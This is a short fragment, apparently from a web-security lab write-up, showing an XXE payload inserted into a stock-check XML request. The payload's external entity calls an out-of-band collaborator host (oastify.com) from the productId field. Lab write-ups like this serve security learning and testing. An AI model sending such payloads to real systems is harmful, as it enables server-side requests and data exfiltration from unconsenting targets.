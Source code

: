 This payload was inserted:  
<br/>

`<?xml version="1.0" encoding="UTF-8"?>`  
`<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://9r1rrmxasxatp0ilivu0ajvqmhs8g34s.oastify.com"> ]><stockCheck><productId>`  
`&xxe;`  
`</productId><storeId>3</storeId></stockCheck>`
